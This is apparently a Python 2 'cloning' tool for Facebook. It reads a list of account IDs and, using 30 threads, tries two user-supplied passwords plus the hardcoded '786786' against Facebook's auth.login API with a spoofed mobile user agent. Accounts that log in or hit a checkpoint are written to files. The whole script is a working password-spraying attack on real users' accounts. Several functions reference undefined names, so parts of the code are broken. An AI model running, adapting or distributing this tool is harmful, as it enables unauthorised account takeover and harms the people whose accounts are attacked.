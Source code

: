 #!/usr/bin/python
# coding=utf-8

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(3.0 / 200)
def tik():
    titik = [
     '   ', '.  ', '.. ', '...', '.. ', '.  ', '   ']
    for o in titik:
        print '\r\x1b[1;91m     [\xe2\x97\x8f] \x1b[1;92mLoa\x1b[1;90mding \x1b[1;97m' + o,
        sys.stdout.flush()
        time.sleep(0.5)




back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")

####Logo####

logo1 = """


      \x1b[0;33m #####.  #####.     ##
      \x1b[0;35m ##. ##. ##. ##.    ##
      \x1b[0;33m ##. ##. ##.   #.   ##
       \x1b[0;35 ##. ##. ##.     #. ##
      \x1b[0;33m ###$##. ##.       ###
      \x1b[0;35m ##. ##. ##.        ##
       \x1b[0;33 ##. ##. ##
       \x1b[101m\x1b[37;1mCODED BY anzamam-Altaf\x1b[0m
       \x1b[101m\x1b[37;1m  God is greater  \x1b[0m
\033[1;97m-----------------------------------------------
\x1b[0;31m⋟\x1b[0;32m DEVOLPER   : \x1b[0;31m ANZAMAM ALTAF   
\x1b[0;31m⋟ \x1b[0;32mWHATSAAP   :  \x1b[0;31m03557117981 
\x1b[0;31m⋟ \x1b[0;32mFACEBOOK   https://www.facebook.com/anzamam.altafchughtai.391:  \x1b[0;31
\033[1;97m-----------------------------------------------"""
 


##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
        os.system('clear')
        print logo1
      
        print '\x1b[1;97m(1) Without Cloning'
        pilih_Somi()

def pilih_ANZAMAM():
    ANZAMAM = raw_input("\n\033[1;95m•➢ \033[1;96m")
    if ANZAMAM =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif ANZAMAM =="1":              
    	tik()
        os.system("clear")
        print logo1
        
        
        
        try:

           
            idlist = raw_input("\033[1;97mfile  : ")
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print '[!] File Not Found'
            raw_input("\n[ Back ]")
            menu()
    elif Anzamam =='0':
    	tik()
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    p = raw_input("\n\033[1;95mPassword➢ \033[1;96m")
    p1 = raw_input("\n\033[1;95mPassword➢ \033[1;96m")
    print 47* '\033[1;96m▬'
    xxx = str(len(id))
    jalan ('\033[1;96m➾ TOTAL IDS NUMBER : '+xxx)
    
    jalan ("\033[1;93m➾ PLEASE WAIT, PROCESS IS START ..")
    jalan ("\033[1;91m➾ TO STOP THIS PROCESS PRESS Ctrl THEN z")
    print 47* '\033[1;96m▬'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = "786786"
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m   (Open \x1b[1;96mNow\x1b[1;92m)  ' + user + '\x1b[1;91m ● \x1b[1;95m' + pass1                                       
                okb = open('sdcard/ids/successful.txt', 'a')
                okb.write(user+pass1+'\n')
                okb.close()
                oks.append(user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;92m   (Aftar \x1b[1;97m7days\x1b[1;93m) ' + user + '\x1b[1;91m ● \x1b[1;96m ' + pass1
                    cps = open('sdcard/ids/checkpoint.txt', 'a')
                    cps.write(user+pass1+'\n')
                    cps.close()
                    cpb.append(user+pass1)
                else:
                    pass2 = p1
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m   (Open \x1b[1;96mNow\x1b[1;92m)  ' + user +  '\x1b[1;91m ● \x1b[1;95m' + pass2
                        okb = open('sdcard/ids/successful.txt', 'a')
                        okb.write(user+pass2+'\n')
                        okb.close()
                        oks.append(user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;92m   (Aftar \x1b[1;97m7days\x1b[1;93m) ' + user + '\x1b[1;91m ● \x1b[1;96m' + pass2
                            cps = open('sdcard/ids/checkpoint.txt', 'a')
                            cps.write(user+pass2+'\n')
                            cps.close()
                            cpb.append(user+pass2)
                                                                                                                                            
                                                                                                                                                                                                         
        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()



